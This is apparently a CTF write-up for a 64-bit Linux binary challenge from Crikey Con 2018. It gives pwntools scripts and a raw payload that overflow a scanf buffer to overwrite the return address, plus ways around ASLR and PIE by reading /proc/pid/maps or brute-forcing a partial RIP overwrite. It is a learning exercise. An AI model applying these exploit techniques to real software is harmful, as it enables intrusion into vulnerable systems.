


# Crikey Con 2018 CTF
## Points: 100
### Location: https://crikeyconctf.dook.biz/challenges#Binary
#### Last updated March 25 2018

This is a fun little binary exploitation exercise for noobs like me. 

I was introduced to this one at a recent sectalks meetup and at the time I had little to no idea what to do with it, other than some instruction pointer overwrites I had done in the past. 

I was told there were 2 ways to do this one: the easy _'lets get lots of CTF points quickly'_ way, and the not so easy _'this thing has an exploitable bug'_ way. 

So that's what we'll do here...

First up, we'll just get the flag really quickly using a debugger.

Then we'll move on to exploiting a vulnerability in the code such that we can get the flag without the aid of the debugger.

Along the way I learned a _tonne_ of things so I'll try to summarize:

1. Basic gdb automation with pwntools
2. Basic ret control mechanics
3. Basic binary R/E with radare2 & gdb
4. Turning ASLR on and off
5. Different kinds of binary protection mechanisms provided in Linux
6. Partial instruction pointer overwrites
7. use of OS memory maps, where available, to workaround ASLR
8. ASLR bruteforcing 64bit things
9. That persistence solves problems =D

For a visual run through of the following I've uploaded a video

[](https://youtu.be/rz-3hnUiArE)

## Tools

To follow along here you'll want:
- a linux environment / VM
- [python 2.7](https://www.python.org/downloads/release/python-2714/)
- [pwntools](https://pypi.python.org/pypi/pwntools/3.5.1)
- a text editor
- [gdb](https://www.gnu.org/software/gdb/) & [gdb-peda](https://github.com/longld/peda)
- [radare2](http://www.radare.org/r/)

You can get at the target binary here:
https://crikeyconctf.dook.biz/challenges#Binary

> We probably shouldn't trust random bins from the internet, so best download this in to a throwaway VM.

## Assumptions
From here on out I'm going to assume some background knowledge:

- Use of a linux based OS
- Background in scripting or programming
- General understanding of what a buffer overflow is
- General understanding of how programs run, (instructions, registers, the stack & heap etc.)

# Normal operation

This binary commences by asking the user a question, and accepts some input, before returning a polite 'no'. It appears to always return no, so at first glance it appears that we need to type in the right string of characters to proceed.

```
Hi there, would you like the flag?
yes
Yeahhhhh, naaaaaaa.
```

It also appears to have a bug: when typing 120 characters, it returns a bus error, and anything over that results in a segmentation fault.

# Static analysis

```bash
$ rabin2 -I ./binary
$ checksec
```

[rabin2](https://radare.gitbooks.io/radare2book/content/rabin2/intro.html) and [checksec](https://www.systutorials.com/docs/linux/man/7-checksec/) tools shows the following key features about this binary:

- ELF 64bit little-endian, linux
- Position Independant Executable (PIE)
- No Execute Flag on (NX/DEP)
- Stack canaries are disabled
- Debugging symbols have not been stripped

Again, with rabin2 we can see a couple of references to the flag, the most interesting string being 'ShowFlag', warranting further decompilation.

For this I used r2's 'inspect Exports' feature:

```bash
$ r2 ./binary
[0x00000630]> iE
```



At this point it is clear that ShowFlag is a function, disassembly showing that it outputs the flag a few characters at a time, using printf and putc.

Inspection of the AskQuestion function disassembly shows that the buffer used to receive input from the user via scanf allocates an array of 0x70 chars, and is congruent with the following snippet of C code:

```c
void AskQuestion(void) {
	char buf[0x70];
	printf("Here:\n");
	scanf("%s", &buf);
	printf("No\n");
}
```
This assumption that input will be less than 0x70 characters leaves the binary susceptible to a buffer overflow vulnerability.

## Approach #1: Debugger
```
GENERIC SPOILER ALERT IS GENERIC!!! 
```
The following approach was demonstrated at our local [sectalks](https://www.sectalks.org/) meetup, making use of gdb to jump to the location of the flag.

The advantage of this approach is that it is fast and can bypass any protections the binary might have, and since this is a downloadable binary, we have complete control over its execution context.

### Steps:
1. Load the binary in gdb
```
$ gdb ./binary
gdb> 
```
2. set a breakpoint in main
```
gdb> b main
```
3. run the program and jump to ShowFlag
```
gdb> r
Breakpoint 1, 0x0000555555554785 in main ()

gdb> j ShowFlag
The flag is:
flag{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```

> Thanks to Daniel for showing us this method at sectalks ADL

## Approach #2: overflow exploitation

The buffer overflow theoretically allows a user on a misconfigured system to alter the program flow. 

By hooking the debugger we can see that the program flow is interrupted by the segmentation fault, leaving the instruction pointer at the return statement of the AskQuestion function:

### Turning off ASLR

I did attempt to exploit the buffer overflow without turning off ASLR using ret2plt or ret2libc (not that I'm skilled at doing so), however I was not able to do so.  I think this is on account of this assembly being Position Independent, thereby randomizing the location of .bss, .plt & .got sections of the assembly. 

The closest I got was realising that I could 'bruteforce' ASLR by reducing the potential places in memory to look for the ShowFlag function.

For now though, to show the basic technique, I'll turn ASLR off:
```
cat /proc/sys/kernel/randomize_va_space
```
A values > 0 indicate that ASLR is on in some way. Full explanation [here](https://docs.oracle.com/cd/E37670_01/E36387/html/ol_aslr_sec.html)

To change the state of ASLR use:
```
echo 0 | tee /proc/sys/kernel/randomize_va_space
```

While it is unlikely to be a 'real world' situation doing this, it is still instructive to learn the mechanics of a return.

### The 'ret' instruction

The [ret instruction](http://www.felixcloutier.com/x86/RET.html) expects to take value at the top of the stack (pointed to by the stack pointer), and loads it into the instruction pointer, thus making that value, the next program instruction location. This is a simplified explanation - there is naunce in ["near and far"](http://oopweb.com/Assembly/Documents/ArtOfAssembly/Volume/Chapter_6/CH06-5.html#HEADING5-98) returns



Since (with ASLR off), we can know the runtime memory address of the ShowFlag function, all we need to do is place that memory address at the top of the stack, at the time the program crashes.

The following python script shows how this is achieved.

```python
1. #!/usr/bin/python2
2. import pwn
3. proc = pwn.process('./binary')
4. buf ='A' * (0x70+0x08) #0x70 chars + 8 more to allow for traversing the base pointer
5. buf += pwn.p64('0x555555554796')
6. proc.sendline(buf)
7. proc.interactive()
8. print buf

```

#### Breaking this down step by step
1. tells our system to run this using python2
2. imports a library to aid in binary return oriented programming, known as [pwntools](http://docs.pwntools.com/en/stable/)
3. connect a 'tube' to our binary so that we can interact with it
4. setup a buffer of 0x78 'A' characters to corrupt the stack
5. append the address of the ShowFlag function to the buffer, using a method called p64 to pack it in little endian order
6. send the buffer down the tube
7. leave the program in an interactive state
8. print out the contents of buffer so that we can use it for subsequent exploits

#### How to determine the correct length of the buffer

We can make an educated guess about the length of the buffer required to cause the desired effect, as the AskQuestion function is quite simple. It allocate 0x70 before running the function body, as we saw earlier, to create an array to store user input.

Due to the arrangement of the stack in relation to the base pointer, we need to also overwrite the base pointer with an additional 16 bytes (or 8 ascii chars)

However there is a fast way that pwntools gives us so we can skip the mental math: [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html?highlight=cyclic#pwnlib.util.cyclic.cyclic_find) and [cyclic_find](http://docs.pwntools.com/en/stable/util/cyclic.html?highlight=cyclic#pwnlib.util.cyclic.cyclic_find)

It is a bit fancy, but it creates a ['De Bruijn sequence'](https://en.wikipedia.org/wiki/De_Bruijn_sequence) such that we can use it to send down the wire instead of a bunch of boring A chars

This doesn't sound too useful until you see what the pair of functions can do:

```python
>>> import pwn
>>> pwn.cyclic(0x80)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab'
>>> pwn.cyclic_find('faab')
120
>>> hex(120)
0x78
```

As you can see - the first call made a sequence, and the second call was able to find the number of characters _into_ that sequence a particular string resides.

By sending this sequence to our binary on the first few attempts, we can look to see what pattern is present on the top of the stack when the sigsegv fires off.

Translating this offset as a hexadecimal confirms that our mental math is good, and we can plug that into our exploit code.

### Final destination

We can deliver the final exploit like this:
```bash
$ echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96GUUUU\x00\x00' | ./binary

Hi there, would you like the flag?
Yeahhhhh, naaaaaaa.
The flag is:
flag{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}

Bus error

```

### Cheating our way to ASLR & PIE defeat

The following isn't exactly an ASLR / PIE defeat, however it may provide a workaround for a user with insufficient privilege to turn ASLR completely off. I came across this information when studying the [this BH'16 presentation (PDF)](https://www.blackhat.com/docs/asia-16/materials/asia-16-Marco-Gisbert-Exploiting-Linux-And-PaX-ASLRS-Weaknesses-On-32-And-64-Bit-Systems.pdf) Unfortunately, I couldn't quite figure out how to 'offset2libc' - I'm not sure if it is possible or not.

In our environment (Linux, x64) each process that gets created on our system writes a memory map to /proc/{pid}/maps, and the contents of a typical map file shows the memory locations like this:
	
```
# cat /proc/<pid>/maps
559a640a2000-559a640a3000 r-xp 00000000 fe:00 1049104                    /jim/binary
559a642a2000-559a642a3000 r--p 00000000 fe:00 1049104                    /jim/binary
559a642a3000-559a642a4000 rw-p 00001000 fe:00 1049104                    /jim/binary
559a6443d000-559a6445e000 rw-p 00000000 00:00 0                          [heap]
7f4be2b50000-7f4be2d01000 r-xp 00000000 fe:00 846058                     /lib/x86_64-linux-gnu/libc-2.27.so
7f4be2d01000-7f4be2f00000 ---p 001b1000 fe:00 846058                     /lib/x86_64-linux-gnu/libc-2.27.so
7f4be2f00000-7f4be2f04000 r--p 001b0000 fe:00 846058                     /lib/x86_64-linux-gnu/libc-2.27.so
7f4be2f04000-7f4be2f06000 rw-p 001b4000 fe:00 846058                     /lib/x86_64-linux-gnu/libc-2.27.so
7f4be2f06000-7f4be2f0a000 rw-p 00000000 00:00 0 
7f4be2f0a000-7f4be2f2f000 r-xp 00000000 fe:00 846054                     /lib/x86_64-linux-gnu/ld-2.27.so
7f4be30fe000-7f4be3100000 rw-p 00000000 00:00 0 
7f4be312e000-7f4be312f000 r--p 00024000 fe:00 846054                     /lib/x86_64-linux-gnu/ld-2.27.so
7f4be312f000-7f4be3130000 rw-p 00025000 fe:00 846054                     /lib/x86_64-linux-gnu/ld-2.27.so
7f4be3130000-7f4be3131000 rw-p 00000000 00:00 0 
7ffd9e426000-7ffd9e447000 rw-p 00000000 00:00 0                          [stack]
7ffd9e589000-7ffd9e58c000 r--p 00000000 00:00 0                          [vvar]
7ffd9e58c000-7ffd9e58e000 r-xp 00000000 00:00 0                          [vdso]
```

Each portion of the binary is in a random location. The PIE flag also allows the libc and ld (linker) references to be randomized also. Again, using automation it is possible to read this at runtime (from a low privileged account)

However, because only certain parts of the binary's memory location are randomized, we can trust that the ShowFlag always sits at the same _offset_

In the previous example we saw that the 3 lowest order bits in the ShowFlag memory location were '796'. This is always the case, no matter what the execution protection is doing.

So, we can leverage the maps file to do the following:

```python
#!/usr/bin/python2

import pwn

#create a tube to the binary
proc = pwn.process('./binary')
#retrieve the pid
pid = proc.pid
#we know that the location of the ShowFlag func *always* ends in 796
magic='796'
#open the PIDs maps file and
maps = open('/proc/'+str(pid)+'/maps', 'r').read()
#pinch the actual memory location (first 9 chars)
desired_ret = int('0x'+ maps[0:9] + magic, 16)
print 'desired ret: ' + hex(desired_ret)

#commence finding the top of our stack buffer overflow
offset = pwn.cyclic_find('faab')
#load up our attack buffer
buf = pwn.cyclic(offset)
buf += pwn.p64(desired_ret)

#send it rockin' down that tube
proc.sendline(buf)
#bazinga
proc.interactive()
```

### Q: What if we can't read /proc/$pid/maps ?


#### A: Bruteforce and a partial IP overwrite
The answer to this question was elusive to me, as my first instinct was to attempt a brute force attack on the entire memory space. Unfortunately it was like trying to find a needle in a haystack, where each time you go looking for the needle, the entire haystack rearranges itself. I set up my loop overnight, ignoring the math, and hoping, but all it did was warmup my laptop.

After trying, giving up, and trying again, I learned about a thing called a ['partial EIP overwrite'](http://ly0n.me/2015/07/30/bypass-aslr-with-partial-eip-overwrite/) whereby it is possible in some scenario's to only write over the last few lower order bytes in the instruction pointer. This meant that the higher order bytes would remain, and if you were lucky, the small amount of address space that you could call would yield something useful.


When I first tried this, I had totally given up on the bruteforce aproach and was looking for a way to ret2somethingUseful and was failing miserably, until it dawned on me that this approach could be used to effectively reduce the amount of places in memory I would have to brute force in order to pop the flag out.

The overwrite approach works because of two things:

1. We only write over the first 3 low order bytes of the Instruction Pointer data - leaving behind the legitimate 3 higher order bytes
2. Because of the necessity to layout machine code consistently, the first 3 low order nibbles are always the same

The tricky part of an IP overwrite is that depending on circumstances, the end of the string you throw into the binary will probably produce a null character (0x00) and that means you'll get an annoying couple of zeroes in your IP. I.e. don't get the _exact_ address you are looking for.

Effectively this means that all we can do with this here, is reduce the potential memory locations that ShowFlag _could_ be in to a realistic amount of places, and we can then just run the binary over and over again until the underlying operating system picks the memory location we constructed via our exploit. 

Here is how that script looked in the end.

```python
#!/usr/bin/python2
import pwn
 
offset = pwn.cyclic_find('faab')
output = ""
count = 1

# check if we have the flag yet
while "flag{" not in output:
    # open the binary and establish a 'tube'
    proc = pwn.process('../binary')
    
    print "attempt #" + str(count)
    count += 1
    
    # tell pwntools to read in a line and throw it away - this would be the first question asked 
    proc.recvline()
    
    # partial RIP overwrite - low bytes first (little endian)
    buf = 'B'*offset
    buf += '\x96\x07'
    
    # send the payload
    proc.sendline(buf)
    
    # recieve all output from the bin and wait for an EOF
    output =  proc.recvall()
    
    # close the process and restart the loop
    proc.close()
print output
~                
```

Using the above code on a 4GB, 2 Core VM I was able to bust out the flag within a few seconds on most attempts - although sometimes I would get unlucky and it would take a few minutes.

